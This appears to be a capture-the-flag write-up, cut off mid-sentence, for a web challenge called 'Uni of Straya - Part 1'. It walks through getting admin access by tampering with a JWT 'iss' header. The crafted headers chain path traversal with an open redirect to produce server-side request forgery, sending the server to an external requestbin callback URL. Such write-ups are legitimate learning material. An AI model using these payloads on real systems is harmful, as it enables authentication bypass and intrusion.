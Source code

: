 <p align="center">
  <img width="600" src="Challenge.PNG" alt="Challenge Description">
</p>
<h1 align="center" style="margin-top: 0px;">Uni of Straya - Part 1</h1>

Daaamn, that description is long, looks pretty scary. Luckily for this first part we just need to focus on that first point.

**Bypass authorization and view the admin console located at ``/admin``**

Alright, so here's what the main page looks like.

![image](https://user-images.githubusercontent.com/104875856/192207126-5cfea71c-55c4-4759-921e-14ebd3321df5.png)

Registering and logging in we get a similar looking page with different prompts. All of which don't give any useful information. 

![image](https://user-images.githubusercontent.com/104875856/192207247-d59e95db-851d-44fd-8f84-e6ae48680ced.png)

Trying to go to `/admin` we get logged out and redirected to the main screen.

I wanted to see what kind of authentication was being used and looking in our web storage we've got a JWT token stored in local storage, there's also a field for userId but changing this does nothing.

At this point I wanted to look into what javascript was being run on each page, since I noticed a `main.js` and `dashboard.js` in the source of the two pages we've been to so far. Every `.js` and `.html` file I came across I saved locally and opened up in Visual Studio Code, that way I can easily navigate and see what's going on.

Once I had all that set out I wanted to take a deeper look into what happens when we request `/admin` since I noticed when we try load the page sometimes the webpage loads for a second and then we get redirected.

Loading up burpsuite and requesting the page serves us html, if we render that it looks like this.

![image](https://user-images.githubusercontent.com/104875856/192208545-30bd1a2d-a8c3-406a-b639-bd0c1c6a6193.png)

That page refers to an `admin.js` file, so I saved the source for that file too.

Now that I had the important `.html` and `.js` files I spent a long time analysing them. A quick realisation was that there were heaps of calls to an API. I tested this API a lot using https://reqbin.com/, definitely my favourite tool for this kind of stuff. I quickly realised that our authorisation was very limited, the JWT token of a standard user only allows us to access a few functionalities. On the topic of our JWT token, here's what it looks like decoded using https://jwt.io/ (another great tool).

![image](https://user-images.githubusercontent.com/104875856/192209919-67b90291-57fd-4648-aef6-a804f22150cc.png)

Notice anything interesting? For me, that directory looked super interesting. As soon as I saw that I thought I might be able to get SSRF (Server-Side Request Forgery). SSRF is where you get the server itself to make a request to wherever you want. My idea was that maybe the server has to follow that directory when it goes to sign our JWT for authentication, if we can change that then maybe we can get it to send a request to somewhere other than `/api/auth/pub-key`.

To test this I crafted a new JWT, keeping everything else the same but changing the header to this:

```json
{
  "alg": "RS256",
  "iss": "https://requestbin.io/z39ug0z3",
  "typ": "JWT"
}
```
https://requestbin.io is a great website for grabbing http callbacks, you can just generate and link and it will log any request made to it.

Sending a request to an API endpoint we don't have access to gives us this response:

```json
{
    "result": "M8 you broke something: ISS needs to match ^/api/auth/pub-key!",
    "status": "error"
}
```

Hm, okay, that regex seems pretty easy to bypass. We could use something like ``/api/auth/pub-key/../../../../`` to get back to the base url. The only problem now is that we can't pass in a straight url since it will try to use it as a directory, it's not just slapped into a request, in fact I made this mistake in my last payload as well, that would've never worked because the original payload had a relative path.

As soon as I ran into this issue I went back to the source code I had, almost immediately I noticed this in `admin.js`!!!

```js
setInterval(() => {
        authAjax({
            url: "/api/auth/isstaff",
            type: "GET",
            success: (data) => {
                if (data.status === "error") {
                    window.location = "/api/auth/logout?redirect=/logout";
                }
            },
            error: errorCallback
        });
    }, 60000);
```

Do you see that? There's an api endpoint that redirects the user to a url. That's how it was kicking us out of the page, that also explains why sometimes it wouldn't kick us out immediately, it had to wait for the api.

Anyway, this is huge! If we can make the server go to this endpoint we can control where it gets redirected, aka **SSRF**!!!. Let's make the payload!

Alright so we know we can get to the base url using directory traversal ``/api/auth/pub-key/../../../../``, now we just need to go to the logout endpoint. That looks like this,

``/api/auth/pub-key/../../../../api/auth/logout?redirect=EVIL``

Let's put our requestbin url in our EVIL parameter and throw it in a JWT. Our JWT header now looks like this.

```json
{
  "alg": "RS256",
  "iss": "/api/auth/pub-key/../../../../api/auth/logout?redirect=https://requestbin.io/z39ug0z3",
  "typ": "JWT"
}
```

Sending that through...

```json
{
    "result": "M8 you broke something: ('Could not deserialize key data. The data may be in an incorrect format, it may be encrypted with an unsupported algorithm, or it may be an unsupported key type (e.g. EC curves with explicit parameters).', [_OpenSSLErrorWithText(code=75497580, lib=9, reason=108, reason_text=b'error:0480006C:PEM routines::no start line')])",
    "status": "error"
}
```

NO WAY

![image](https://user-images.githubusercontent.com/104875856/192215883-ad5f5900-69e7-4b26-be1a-5fef57785e68.png)

So we have SSRF, but it's kinda limited right? We don't get any real feedback on what the serv




